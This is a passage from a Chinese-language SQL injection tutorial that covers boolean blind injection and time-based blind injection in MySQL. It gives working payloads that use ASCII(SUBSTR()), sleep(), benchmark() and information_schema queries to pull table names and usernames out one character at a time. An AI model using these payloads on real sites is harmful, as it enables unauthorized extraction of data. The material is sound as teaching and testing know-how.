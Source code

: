     ###### 求指定表中某字段的数量

    ``SELECT * from users WHERE id = 1 AND (select count(username) from users) = 13``

    ###### 求字段长度

    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select username from users  limit 0,1),4,1))``

    ###### 求字段名

    ``SELECT * from users WHERE id = 1 and ASCII(SUBSTR((select username from users  limit 0,1),1,1))  = 68``



#### 时间盲注

时间盲注又称延迟注入，是一种盲注的手法, 提交对执行时间敏感的函数sql语句，通过执行时间的长短来判断是否执行成功，比如:正确的话会导致时间很长，错误的话会导致执行时间很短。~~SQLMAP、穿山甲、胡萝卜等主流注入工具可能检测不出~~，只能手工检测，或利用脚本程序跑出结果。

时间盲注主要用到`sleep()`函数，除此之外还有`benchmark()`

时间盲注比布尔盲注难度稍高 ，关键在于不论你怎么输入就是不报错

时间盲注的sql语句很好理解，如

##### sleep(seconds)

- seconds: sleep的秒数

`id= 1’ or sleep(3) %23`

如果这个时候直接服务器过了三秒才反应，那么就存在时间注入

也可以添加if语句，控制if第一个参数

`id= 1’ or if(1,sleep(3),0) %23`

如果某一个条件正确就延迟三秒，如果错误就返回0 (也就是if第一个参数为1)     

具体的注入语句示例如下

`id= 1’ or if((select table_name from information_schema.tables where table_schema=database() limit 0,1),sleep(3),0) %23`

##### benchmark(count, expr)

- count: 执行次数（必须为正整数）
- expr: 要重复执行的表达式（通常是一个计算密集型操作）

MySQL 会计算 expr 指定的表达式 count 次，返回结果始终是 0

`select if(1=1,benchmark(10000000,md5('test')),0)`

如果条件为真，则执行大量计算导致延迟；为假则立即返回。

例如探测数据库名长度

`select if(length(database())=8, benchmark(10000000,md5('test')), 0)`


后面的盲注过程与布尔盲注类似
